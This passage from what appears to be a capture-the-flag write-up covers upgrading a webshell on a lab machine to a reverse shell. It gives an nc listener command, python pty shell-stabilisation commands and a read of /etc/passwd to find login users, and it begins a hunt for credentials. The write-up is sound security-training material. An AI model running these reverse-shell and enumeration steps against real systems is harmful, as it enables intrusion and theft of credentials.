 ### Reverse Shell
> Experiment with different 
> [reverse shells](https://www.revshells.com/){:target="_blank"}{:rel="noopener noreferrer"}
{: .prompt-tip }

For convenience, we can upgrade our webshell to a reverse
shell. I used the `nc mkfifo` payload with `URL Encoding` from
[revshells.com](https://www.revshells.com/){:target="_blank"}{:rel="noopener noreferrer"}
. 

If you don't know your IP on the network you can run

```bash
hostname -i
```

To catch the reverse shell request setup a listener
```bash
nc -lvnp 4444
```

Then we can run our reverse shell payload through the webshell

![revshell](/images/permx/revshell.png)

`python3` is also on the box so we can upgrade our shell

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
# ctrl + z to background the shell
stty raw -echo && fg
export SHELL=/bin/bash
export TERM=screen
```

## Horizontal Escalation
> What accessible files could have credentials?
{: .prompt-tip }

Now that we're on the machine let's see what other users
have a login shell

```bash
cat /etc/passwd | grep bash
```

